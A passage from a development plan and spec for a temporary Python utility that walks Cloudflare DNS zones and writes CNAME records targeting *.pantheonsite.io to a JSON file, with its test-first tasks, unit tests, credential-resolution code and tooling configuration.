platform-domain CNAME in zone <zone>, which the Cloudflare API should not permit; keeping record_id <first>\n```\n\nWarnings are collected during the fold and printed **before** the file is written, so an operator\nwatching stderr sees them even if the write then fails.\n\n### R8 — Atomic write\n\n`write_fqdns_atomic` from `plugin/cloudflare/fqdns.py`, copied and renamed `write_json_atomic`:\n`tempfile.mkstemp(dir=…)` in the target's directory → write → restore a umask-based mode (mkstemp\ncreates 0600) → `os.replace()` → on any `BaseException`, unlink the temp file and re-raise. The\n`# noqa: PTH…` comments come with it (ruff's `select = ALL` includes the pathlib rules, and this\nfunction's `os.replace` on the same filesystem is the behavior being specified, not an\n`os`-vs-`pathlib` style choice).\n\nAn interrupted run therefore leaves the previous file byte-intact; it never leaves a truncated one.\n\n## 3. Module layout of the script\n\nSingle file, in this order:\n\n| Symbol | Kind | Responsibility |\n|---|---|---|\n| module docstring | — | what it is, that it is TEMPORARY, the §11 pointer, requirements |\n| `PLATFORM_SUFFIX`, `OUTPUT_FILE`, `DEFAULT_CONFIG`, `MARKER_RE` | constants | R4, R5, R1, R2 |\n| `StartupError` | exception | anything that ends the run at exit 2 |\n| `normalize`, `is_platform_domain` | pure | R4 — copied from the sibling |\n| `resolve_env_marker`, `resolve_config_value` | pure (reads `os.environ`) | R2 |\n| `build_client`, `cloudflare_client` | I/O | R2, R2a |\n| `plain` | pure | R5 — pydantic sub-model → JSON-serializable |\n| `collect_entries` | pure | R4, R5, R7 — the fold |\n| `expected_record_count`, `api_error_text` | pure | R3, R6 |\n| `fetch_platform_cnames` | I/O | R3 |\n| `write_json_atomic` | I/O | R8 — copied from `fqdns.py` |\n| `build_arg_parser`, `main` | CLI | R1, R6 |\n| `if __name__ == \"__main__\":` | — | `sys.exit(main(sys.argv[1:]))` |\n\n## 4. Seams under test — named and agreed\n\nAgreed here, before implementation, per the Spine's bar (*\"The spec is the only place a seam can\nbe agreed\"*).\n\n| Seam | How a test reaches it | Why it is a seam |\n|---|---|---|\n| the script module itself | `SourceFileLoader` **fresh per test** (`fpc` fixture) | The script has no `.py` extension; fresh-per-test is what makes module-attribute patching safe |\n| `os.environ` | `monkeypatch.setenv` / `delenv` | The only ambient input to credential resolution |\n| the config file | a TOML written into `tmp_path` | Real `tomllib` parse, no fake |\n| **the Cloudflare client** | `FakeCloudflareClient` / `FakePage` passed **as a parameter** — never patched | `fetch_platform_cnames(client, …)` takes the client; injection beats patching |\n| `cloudflare_client` / `fetch_platform_cnames` / `write_json_atomic`, as `main()` calls them | `monkeypatch.setattr(fpc, …)` | Safe *only* because the module is fresh per test |\n| the filesystem | `tmp_path` + `monkeypatch.chdir` (`OUTPUT_FILE` is relative) | Keeps the repo clean and makes the write assertable |\n| the real Cloudflare API | **NEVER** touched by any test | Every test in §7 is offline |\n\n`FakePage` deliberately has **no `result` attribute**: an implementation that read `page.result`\n(page 1 only) instead of iterating the page would fail loudly rather than silently pass.\n\n## 5. Shadow paths (PD#3), traced\n\nHappy path plus nil / empty / upstream-error, for each new flow.\n\n| Flow | Happy | Nil input | Empty / zero-length | Upstream error |\n|---|---|---|---|---|\n| Credential resolution | marker → env value → client | key absent → `None` → falls through to email+key, or `StartupError` if neither | env var set but **empty** → `\"\"` → falsy → treated as absent, same as the main program's `get_env` (`name in os.environ` semantics copied) | unset var → `StartupError`; unbalanced quote → `ValueError` → `StartupError`; non-`env` form → `StartupError`; non-`str` value → `StartupError` |\n| The walk | accounts → zones → records | `result_info` absent → `expected is None` → cross-check no-ops | **zero accounts** → zero zones → **fatal**; **zero zones** → fatal; a zone with **zero records** → contributes nothing, not an error | `CloudflareError` → `StartupError` via `api_error_text`; `seen != total_count` → `StartupError` |\n| The fold | CNAME + platform target → entry | `content` `None` → skipped; `settings` `None` → stored as `null`; `proxied`/`ttl` absent → `False` / `None` | zero pairs → `({}, [])`, which `main()` reports with the zero-match `ATTENTION:` | n/a (pure; upstream errors surface from the generator it consumes) |\n| The write | temp → chmod → `os.replace` | n/a | `{}` writes `{}\\n` — a real, intentional result | `TypeError` mid-serialize or `OSError` → temp unlinked, previous file byte-intact; `OSError` becomes `StartupError` at the call site |\n\n## 6. Observability (PD#5)\n\n| Level | Emits |\n|---|---|\n| default | duplicate-name `ATTENTION:` warnings; the summary (count, **DNS-only count**, zones, accounts, path); the zero-match `ATTENTION:` when nothing was found; one `ERROR:` line on failure |\n| `-v` | additionally `[n/total] zone <name>` as each zone is scanned — the only progress signal during a walk with no other output |\n\nRules:\n\n- **NEVER** an API response body, at any level (R6).\n- A truncation is a **hard abort naming both counts** (`read 41 DNS records but Cloudflare\n  reported 137`), not a log line an operator has to notice.\n- The **runtime is unknown until the first live run** and is recorded in §12, then added to the\n  CLAUDE.md subsection — the sibling documents \"~38 minutes\" and an operator deserves the same\n  here before starting a run with no output.\n- Rejected: counted `-v/-vv/-vvv` with per-zone record counts (§8.9).\n\n## 7. Test plan\n\nOne file, `tests/unit/test_find_platform_domains_cloudflare.py`, `pytestmark = pytest.mark.unit`,\nfully offline, **50 tests**. Seams per §4.\n\n**These counts and outcomes are measured, not predicted.** The whole script and the whole test\nfile were written to a scratch directory and run before this plan was finalized:\n`50 passed`, `ruff check` clean, `pyright` standard `0 errors, 0 warnings`. Cumulative per task:\n**8 / 23 / 35 / 38 / 50.**\n\nCovered: the marker resolver (all four forms, missing var, unbalanced quote, non-`env`\nsubstitution, literal and non-string passthrough), credential selection **including R2a's\nsecurity property asserted on `auth_headers`/`default_headers`** and the non-`str` type check, the\nmatch rule (all five reject cases), the fold (all eight fields, pydantic `settings` serialization,\nmissing optional attributes, first-record-wins, both duplicate warnings), the atomic write\n(creates, overwrites, leaves no temp file, survives a mid-serialize failure), the walk (multi-page\nconsumption, truncation abort, absent-`total_count` no-op, zero zones, API error wrapping,\nbody-free error text), and **`main()`'s three exit codes** plus the unwritable-output path.\n\nNot covered, by decision (§8): a live-API test of any kind.\n\n---\n\n## Task 1: Scaffold, tooling, and the match rule\n\n**Files:**\n- Create: `find-platform-domains-cloudflare` (executable, `chmod +x`)\n- Create: `find-platform-domains-cloudflare.py` → symlink to the above\n- Create: `tests/unit/test_find_platform_domains_cloudflare.py`\n- Modify: `pyproject.toml` (two `[tool.ruff.lint.per-file-ignores]` entries, one\n  `[tool.pyright].include` entry)\n- Modify: `.claude/hooks/ruff-check.sh` (one `case` arm)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `PLATFORM_SUFFIX = \".pantheonsite.io\"`, `OUTPUT_FILE`, `DEFAULT_CONFIG`,\n  `StartupError`, `normalize(name) -> str`, `is_platform_domain(name) -> bool`.\n\n- [ ] **Step 1: Write the failing test**\n\nCreate `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n\"\"\"Offline tests for the find-platform-domains-cloudflare utility (SPEC section 7).\n\nThe script has no .py extension, so it is loaded with the SourceFileLoader idiom the suite\nalready uses for standalone scripts and check/plugin modules (see\ntests/unit/test_find_platform_domains_dns.py).  It is loaded FRESH PER TEST so no module-level\nstate leaks between tests -- which is also what makes monkeypatching module attributes safe in\nthe main() tests at the bottom (SPEC section 4, seams).\n\nTEMPORARY, deleted with the script after the Pantheon CDN migration -- see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"\"\"\nimport importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\npytestmark = pytest.mark.unit\n\n# EVERY import for EVERY task in this file belongs in the block above.  Later tasks append\n# tests, not imports: ruff's E402 is not in the tests/** ignore list, so an import half way\n# down the file fails the gate.\n\nSCRIPT = Path(__file__).resolve().parent.parent.parent / \"find-platform-domains-cloudflare\"\n\n\n@pytest.fixture\ndef fpc():\n    \"\"\"The utility, loaded fresh.  Its entry point is __main__-guarded, so import runs nothing.\"\"\"\n    loader = SourceFileLoader(\"find_platform_domains_cloudflare_probe\", str(SCRIPT))\n    spec = importlib.util.spec_from_loader(loader.name, loader)\n    assert spec is not None\n    module = importlib.util.module_from_spec(spec)\n    loader.exec_module(module)\n    return module\n\n\ndef record(**overrides):\n    \"\"\"A stand-in for a cloudflare RecordResponse; the code under test only reads attributes.\"\"\"\n    fields = {\"type\": \"CNAME\", \"name\": \"www.example.edu\", \"id\": \"rec-1\",\n              \"content\": \"live-umich-example1.pantheonsite.io\", \"proxied\": True,\n              \"ttl\": 1, \"comment\": None, \"tags\": [], \"settings\": None}\n    fields.update(overrides)\n    return types.SimpleNamespace(**fields)\n\n\n# --- Task 1: the match rule ------------------------------------------------------------------\n\ndef test_normalize_strips_case_whitespace_and_the_root_dot(fpc):\n    assert fpc.normalize(\"  LIVE-Umich-X.PantheonSite.IO.  \") == \"live-umich-x.pantheonsite.io\"\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"live-umich-example1.pantheonsite.io\",\n    \"LIVE-UMICH-EXAMPLE1.PANTHEONSITE.IO\",\n    \"live-umich-example1.pantheonsite.io.\",\n])\ndef test_is_platform_domain_accepts_platform_hostnames(fpc, name):\n    assert fpc.is_platform_domain(name) is True\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"notpantheonsite.io\",          # the leading dot in PLATFORM_SUFFIX is what rejects this\n    \"pantheonsite.io\",             # the bare apex is not a site's platform domain\n    \"www.example.edu\",\n    \"live-umich-example1.pantheonsite.io.evil.example\",\n])\ndef test_is_platform_domain_rejects_everything_else(fpc, name):\n    assert fpc.is_platform_domain(name) is False\n```\n\n- [ ] **Step 2: Run the tests to verify they fail — for the right reason**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\n\nExpected: **8 errors**, each a `FileNotFoundError` raised by the `fpc` fixture. Collection itself\n**succeeds** — `SCRIPT` is only a `Path` at module level and nothing touches the filesystem until\nthe fixture runs. (Do not expect a collection error; that expectation was wrong in an earlier\ndraft — adversarial review, finding 11.)\n\n- [ ] **Step 3: Create the script with its docstring, constants and the match rule**\n\nCreate `find-platform-domains-cloudflare`:\n\n```python\n#!/usr/bin/env python\n\"\"\"Write every Cloudflare CNAME record pointing at a Pantheon platform domain to JSON.\n\nTEMPORARY.  Delete after Pantheon's Fastly -> Pantheon-Cloudflare CDN migration completes; see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 11 for the checklist.\n\nStandalone by design: this imports nothing from psh/, check/, plugin/ or script_context, so most\nof removing it is `git rm` of the script, its .py symlink and its test file.  The credential\nread, the account/zone/record walk and the atomic write are COPIES of plugin/cloudflare/fqdns.py\nand plugin/cloudflare/client.py; normalize()/is_platform_domain() are copies of\nfind-platform-domains-dns.\n\nUnlike fqdns.json, this considers ALL records in ALL zones -- not just proxied ones -- and keeps\nonly CNAMEs whose target ends in .pantheonsite.io.  The output file is regenerated in full on\nevery run, whatever its age.\n\nOutput: ./platform-domains-cloudflare.json, keyed by FQDN, values {zone_id, origins, record_id,\nproxied, ttl, comment, tags, settings}.  stdout carries ONLY argparse's usage/--help text; every\noperator message -- warnings, progress, the summary, errors -- goes to stderr, and the result is\nthe file.  Exit 0 = file written, 2 = could not complete, 130 = interrupted.\n\nRequires: the `cloudflare` SDK (declared under this project's `cloudflare` extra, which the\ndocumented `uv pip install .[mysql,aws,cloudflare]` setup line installs) and Cloudflare\ncredentials in the [Cloudflare] section of the config file.\n\"\"\"\nimport argparse\nimport json\nimport os\nimport re\nimport shlex\nimport sys\nimport tempfile\nimport tomllib\nfrom pathlib import Path\n\nimport cloudflare  # for cloudflare.CloudflareError\nfrom cloudflare import Cloudflare\n\nPLATFORM_SUFFIX = \".pantheonsite.io\"   # the leading dot is load-bearing: it rejects\n                                       # \"notpantheonsite.io\"\nOUTPUT_FILE = \"platform-domains-cloudflare.json\"\nDEFAULT_CONFIG = \"pantheon-sitehealth-emails.toml\"\n\n# Copied verbatim from psh/configuration.py.  A marker is \"<{ ... }\" -- the trailing \">\" that\n# appears in the sample config is decorative and NOT part of the syntax.\nMARKER_RE = re.compile(r\"<\\{(.*?)(?<!\\\\)}\")\n\n\nclass StartupError(Exception):\n    \"\"\"Anything that stops the sweep from starting or completing (exit 2).\"\"\"\n\n\ndef normalize(name):\n    \"\"\"Lowercase, strip whitespace and the trailing root dot.  Copied from\n    find-platform-domains-dns.\"\"\"\n    return str(name).strip().rstrip(\".\").lower()\n\n\ndef is_platform_domain(name):\n    \"\"\"True for a Pantheon-provided *.pantheonsite.io hostname.\"\"\"\n    return normalize(name).endswith(PLATFORM_SUFFIX)\n```\n\n- [ ] **Step 4: Make it executable and create the symlink**\n\n```bash\ncd /workspace\nchmod +x find-platform-domains-cloudflare\nln -s find-platform-domains-cloudflare find-platform-domains-cloudflare.py\n```\n\n`chmod +x` is **required, not cosmetic**: ruff's `EXE001` (\"shebang is present but file is not\nexecutable\") fires without it, and `EXE001` is not in any ignore list. Measured.\n\n- [ ] **Step 5: Add the tooling entries**\n\nIn `pyproject.toml`, in `[tool.ruff.lint.per-file-ignores]`, immediately after the two existing\n`find-platform-domains-dns` entries:\n\n```toml\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]  # a CLI tool: print IS its operator output\n    # (stderr = warnings, progress, summary; the result is the JSON file).  Temporary, deleted\n    # with the script after the Pantheon CDN migration -- see\n    # development/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"find-platform-domains-cloudflare\" = [\"T201\"]  # the extension-less real file the .py entry\n    # above symlinks to -- .claude/hooks/ruff-check.sh hands ruff THIS path (an edit lands on the\n    # real file, not the symlink), and per-file-ignores is keyed on the path ruff is given, so\n    # the .py entry alone leaves the hook's own invocation reporting T201.  Same justification\n    # and deletion condition as the .py entry above.\n```\n\nIn `pyproject.toml`, `[tool.pyright]`, extend `include`:\n\n```toml\ninclude = [\"psh\", \"find-platform-domains-dns.py\", \"find-platform-domains-cloudflare.py\"]\n```\n\nIn `.claude/hooks/ruff-check.sh`, add one arm to the extension-less `case` (after the\n`find-platform-domains-dns` arm):\n\n```sh\n    \"$REPO_ROOT/find-platform-domains-cloudflare\") ;;\n```\n\nand extend that block's comment to name both temporary utilities.\n\n- [ ] **Step 6: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **8 passed**.\n\n- [ ] **Step 7: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare find-platform-domains-cloudflare.py \\\n        tests/unit/test_find_platform_domains_cloudflare.py pyproject.toml \\\n        .claude/hooks/ruff-check.sh\ngit commit -m \"feat(find-platform-domains-cloudflare): scaffold the utility and its match rule\"\n```\n\n> The \"does the lint gate actually see this file\" check is **not** here. At this point the script\n> contains no `print`, so `ruff check` passes identically whether or not Step 5 was done — a green\n> check that cannot go red. It moves to Task 5 Step 6, where the `print` calls exist. *(Adversarial\n> review, finding 10.)*\n\n---\n\n## Task 2: Credential resolution\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `is_platform_domain`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `MARKER_RE`, `StartupError`, `DEFAULT_CONFIG` (Task 1).\n- Produces:\n  - `resolve_env_marker(expr: str, where: str) -> str`\n  - `resolve_config_value(value, where: str)` — returns `value` unchanged when not a `str`\n  - `build_client(**creds) -> Cloudflare`\n  - `cloudflare_client(config_path: str) -> Cloudflare`\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n# --- Task 2: credentials ---------------------------------------------------------------------\n\ndef write_config(tmp_path, body):\n    \"\"\"A config file containing just a [Cloudflare] table.\"\"\"\n    path = tmp_path / \"config.toml\"\n    path.write_text(f\"[Cloudflare]\\n{body}\\n\")\n    return str(path)\n\n\ndef test_resolve_config_value_passes_literals_and_non_strings_through(fpc):\n    assert fpc.resolve_config_value(\"plain-literal\", \"where\") == \"plain-literal\"\n    assert fpc.resolve_config_value(True, \"where\") is True\n    assert fpc.resolve_config_value(None, \"where\") is None\n\n\n@pytest.mark.parametrize(\"marker\", [\"<{env CF_TEST_VAR}\", \"<{secret env CF_TEST_VAR}\"])\ndef test_resolve_config_value_reads_the_environment(fpc, monkeypatch, marker):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"from-the-environment\")\n    assert fpc.resolve_config_value(marker, \"where\") == \"from-the-environment\"\n\n\ndef test_resolve_config_value_substitutes_inside_a_larger_string(fpc, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"middle\")\n    assert fpc.resolve_config_value(\"a<{env CF_TEST_VAR}z\", \"where\") == \"amiddlez\"\n\n\ndef test_resolve_config_value_uses_the_default_when_the_variable_is_unset(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    assert fpc.resolve_config_value(\"<{secret env CF_TEST_VAR fallback}\", \"where\") == \"fallback\"\n\n\ndef test_resolve_config_value_reports_an_unset_variable_with_no_default(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env CF_TEST_VAR}\", \"config.toml [Cloudflare].api_key\")\n    assert \"CF_TEST_VAR\" in str(caught.value)\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_resolve_config_value_rejects_a_substitution_it_cannot_resolve(fpc):\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws cloudflare/token\" in str(caught.value)\n\n\ndef test_resolve_config_value_names_a_malformed_substitution(fpc):\n    \"\"\"An unbalanced quote makes shlex raise ValueError, which escaped as a raw traceback at\n    exit 1 -- a code SPEC section R6 does not use (adversarial review, finding 3).\"\"\"\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env FOO don't}\", \"config.toml [Cloudflare].api_key\")\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_cloudflare_client_prefers_the_api_token(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_TOKEN\", \"tok-123\")\n    path = write_config(tmp_path, 'api_token = \"<{secret env CF_TEST_TOKEN}\"\\n'\n                                  'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_token == \"tok-123\"\n\n\ndef test_cloudflare_client_sends_only_the_configured_credential(fpc, tmp_path, monkeypatch):\n    \"\"\"SPEC R2a, the security property itself rather than the attribute state that implements it.\n\n    The SDK back-fills unset credentials from the environment, and ambient values reach the wire\n    by TWO routes: auth_headers (which prefers X-Auth-Email over the bearer token) and\n    default_headers (which adds X-Auth-Email/X-Auth-Key whenever those attributes are not None).\n    Measured against cloudflare 5.4.0; an SDK that captured credentials at construction would\n    make this go red, which is the point.\n    \"\"\"\n    monkeypatch.setenv(\"CLOUDFLARE_EMAIL\", \"ambient@example.edu\")\n    monkeypatch.setenv(\"CLOUDFLARE_API_KEY\", \"ambient-key\")\n    path = write_config(tmp_path, 'api_token = \"tok-123\"')\n    client = fpc.cloudflare_client(path)\n    assert client.auth_headers == {\"Authorization\": \"Bearer tok-123\"}\n    sent = {value for value in client.default_headers.values() if isinstance(value, str)}\n    assert \"ambient@example.edu\" not in sent\n    assert \"ambient-key\" not in sent\n\n\ndef test_cloudflare_client_falls_back_to_email_and_key(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CLOUDFLARE_API_TOKEN\", \"ambient-token\")\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_email == \"someone@example.edu\"\n    assert client.api_key == \"k-456\"\n    assert client.api_token is None\n    sent = {value for value in client.default_headers.values() if isinstance(value, str)}\n    assert \"ambient-token\" not in sent\n\n\ndef test_cloudflare_client_requires_both_email_and_key(fpc, tmp_path):\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n\n\ndef test_cloudflare_client_rejects_a_non_string_credential(fpc, tmp_path):\n    \"\"\"TOML is typed: `api_token = true` would otherwise reach the SDK and be stringified into\n    `Authorization: Bearer True` -- the confusing 401 the marker rules exist to prevent.\"\"\"\n    path = write_config(tmp_path, \"api_token = true\")\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n    assert \"bool\" in str(caught.value)\n\n\ndef test_cloudflare_client_without_a_cloudflare_section_is_a_startup_error(fpc, tmp_path):\n    path = tmp_path / \"config.toml\"\n    path.write_text('[Pantheon]\\norg_id = \"abc\"\\n')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(str(path))\n    assert \"[Cloudflare]\" in str(caught.value)\n\n\ndef test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'resolve_config_value'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `is_platform_domain`:\n\n```python\ndef resolve_env_marker(expr, where):\n    \"\"\"Resolve the body of ONE `<{ ... }` marker.  Only the env forms this script needs.\n\n    Accepts `env NAME [DEFAULT]` and `secret env NAME [DEFAULT]` -- the two forms\n    plugin/env/__init__.py registers.  Anything else (`secret aws ...`, `umich ...`) raises,\n    rather than passing the literal marker through: a literal \"<{secret aws ...}\" handed to the\n    API as a token would surface as a baffling 401 instead of a config error.\n\n    Tokenizing deliberately uses shlex.split() rather than the config engine's\n    list(shlex.shlex(expr, posix=True)), which ALSO splits on punctuation and so turns\n    \"env FOO some-default\" into five tokens; the engine then scores 3 of 5 and reports \"no match\n    found for configuration file value\".  The two agree on every marker the main program can\n    actually resolve; this one is marginally more permissive about defaults containing\n    punctuation.\n    \"\"\"\n    try:\n        argv = shlex.split(expr)\n    except ValueError as e:\n        # shlex raises on an unbalanced quote, e.g. <{env FOO don't}.  Without this the\n        # ValueError escapes main() as a raw traceback at exit 1 -- a code section 6 does not use.\n        raise StartupError(f\"{where}: malformed substitution <{{{expr}}}: {e}\") from e\n    if argv[:1] == [\"secret\"]:\n        argv = argv[1:]\n    if argv[:1] != [\"env\"] or not 2 <= len(argv) <= 3:  # noqa: PLR2004 -- NAME, or NAME + DEFAULT\n        raise StartupError(\n            f\"{where}: this script resolves only <{{env NAME}} and <{{secret env NAME}} \"\n            f\"substitutions (each with an optional default), not <{{{expr}}}.  Put a literal or \"\n            \"an environment-backed value there.\")\n    name = argv[1]\n    if name in os.environ:\n        return os.environ[name]\n    if len(argv) == 3:  # noqa: PLR2004 -- the DEFAULT is present\n        return argv[2]\n    raise StartupError(f\"{where}: environment variable '{name}' is not set\")\n\n\ndef resolve_config_value(value, where):\n    \"\"\"Resolve every `<{ ... }` marker inside one config value.  Non-strings pass through.\"\"\"\n    if not isinstance(value, str):\n        return value\n    return MARKER_RE.sub(lambda match: resolve_env_marker(match.group(1), where), value)\n\n\ndef build_client(**creds):\n    \"\"\"Build a Cloudflare client that uses EXACTLY the credentials the config supplied.\n\n    Measured on cloudflare 5.4.0: the SDK back-fills every credential argument left None from the\n    environment (CLOUDFLARE_API_TOKEN / _API_KEY / _EMAIL / _API_USER_SERVICE_KEY), and ambient\n    values then reach the wire by TWO independent routes --\n\n      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is\n         set, and only that one; and\n      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes\n         are not None.\n\n    So Cloudflare(api_token=...) on a host exporting CLOUDFLARE_EMAIL authenticates with\n    X-Auth-Email and never sends the token.  Nulling the fields the config did not supply closes\n    BOTH routes, because both read these attributes at request-build time.  This pin is therefore\n    SDK-version-sensitive: it was measured against 5.4.0, and pyproject declares the dependency\n    unpinned as \"cloudflare\".  (The main program's plugin/cloudflare/client.py has the same\n    latent defect; fixing it is a separate change.)\n    \"\"\"\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\n\n\ndef cloudflare_client(config_path):\n    \"\"\"Build the Cloudflare client from the [Cloudflare] table of the TOML at `config_path`.\n\n    api_token wins when present; otherwise email + api_key, both required -- the same precedence\n    plugin/cloudflare/client.py uses.  `enabled` is deliberately NOT consulted: that flag governs\n    the main program's per-site Cloudflare work, and refusing to run this utility because of it\n    would be a surprise to an operator who invoked it on purpose.\n    \"\"\"\n    try:\n        with Path(config_path).open(\"rb\") as handle:\n            config = tomllib.load(handle)\n    except OSError as e:\n        raise StartupError(f\"cannot read {config_path}: {e}\") from e\n    except tomllib.TOMLDecodeError as e:\n        raise StartupError(f\"{config_path} is not valid TOML: {e}\") from e\n\n    section = config.get(\"Cloudflare\")\n    if not isinstance(section, dict):\n        raise StartupError(f\"{config_path} has no [Cloudflare] section\")\n\n    def value(key):\n        \"\"\"One credential, type-checked where it is read then marker-resolved.\n\n        TOML is a typed format, so `api_token = true` (an unquoted value -- an ordinary typo) is\n        a bool, which `if api_token:` accepts and the SDK stringifies into\n        `Authorization: Bearer True` -- exactly the confusing 401 that resolve_env_marker refuses\n        to cause for an unresolvable marker.  The check belongs here, where the value is read.\n        \"\"\"\n        raw = section.get(key)\n        where = f\"{config_path} [Cloudflare].{key}\"\n        if raw is not None and not isinstance(raw, str):\n            raise StartupError(f\"{where} must be a string, got {type(raw).__name__}\")\n        return resolve_config_value(raw, where)\n\n    api_token = value(\"api_token\")\n    if api_token:\n        return build_client(api_token=api_token)\n    email = value(\"email\")\n    api_key = value(\"api_key\")\n    if not email or not api_key:\n        raise StartupError(\n            f\"{config_path} [Cloudflare] needs either api_token, or both email and api_key\")\n    return build_client(api_email=email, api_key=api_key)\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **23 passed** (8 from Task 1 + 15 here — `test_resolve_config_value_reads_the_environment`\nis parametrized over two marker forms).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): resolve [Cloudflare] credentials from the config\"\n```\n\n---\n\n## Task 3: The fold\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `cloudflare_client`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `is_platform_domain`, `normalize` (Task 1).\n- Produces: `plain(value)`, `collect_entries(zone_records) -> tuple[dict, list[str]]`, where\n  `zone_records` is any iterable of `(zone_id, record)` pairs and the returned dict is R5's\n  structure.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n# --- Task 3: the fold ------------------------------------------------------------------------\n\ndef test_collect_entries_builds_the_output_structure(fpc):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(ttl=300, comment=\"migrated\",\n                                                               tags=[\"cdn\"]))])\n    assert entries == {\n        \"www.example.edu\": {\n            \"zone_id\": \"zone-a\",\n            \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n            \"record_id\": \"rec-1\",\n            \"proxied\": True,\n            \"ttl\": 300,\n            \"comment\": \"migrated\",\n            \"tags\": [\"cdn\"],\n            \"settings\": None,\n        },\n    }\n    assert warnings == []\n\n\ndef test_collect_entries_keeps_dns_only_records(fpc):\n    \"\"\"The whole reason this script exists next to fqdns.json, which is proxied=True only.\"\"\"\n    entries, _ = fpc.collect_entries([(\"zone-a\", record(proxied=False))])\n    assert entries[\"www.example.edu\"][\"proxied\"] is False\n\n\ndef test_collect_entries_serializes_a_pydantic_settings_model(fpc):\n    \"\"\"record.settings is a pydantic model; json.dump cannot serialize one.\"\"\"\n    from cloudflare.types.dns.cname_record import Settings\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(settings=Settings(flatten_cname=True)))])\n    settings = entries[\"www.example.edu\"][\"settings\"]\n    assert settings[\"flatten_cname\"] is True\n    # Asserting the whole dict would pin the SDK's model shape (it also carries ipv4_only /\n    # ipv6_only); what matters here is the value round-tripping and the entry staying\n    # serializable, which a live pydantic model would not be.\n    json.dumps(entries)\n\n\ndef test_collect_entries_tolerates_a_record_missing_the_optional_fields(fpc):\n    bare = types.SimpleNamespace(type=\"CNAME\", name=\"www.example.edu\", id=\"rec-1\",\n                                 content=\"live-umich-example1.pantheonsite.io\")\n    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"proxied\"] is False\n    assert entry[\"ttl\"] is None\n    assert entry[\"comment\"] is None\n    assert entry[\"tags\"] == []\n    assert entry[\"settings\"] is None\n\n\n@pytest.mark.parametrize(\"skipped\", [\n    {\"type\": \"A\", \"content\": \"23.185.0.4\"},\n    {\"type\": \"A\", \"content\": \"live-umich-example1.pantheonsite.io\"},   # not a CNAME\n    {\"type\": \"TXT\", \"content\": \"v=spf1 -all\"},\n    {\"type\": \"CNAME\", \"content\": \"www.example.edu.cdn.cloudflare.net\"},  # not a platform domain\n    {\"type\": \"CNAME\", \"content\": \"notpantheonsite.io\"},\n])\ndef test_collect_entries_skips_everything_that_is_not_a_platform_cname(fpc, skipped):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(**skipped))])\n    assert entries == {}\n    assert 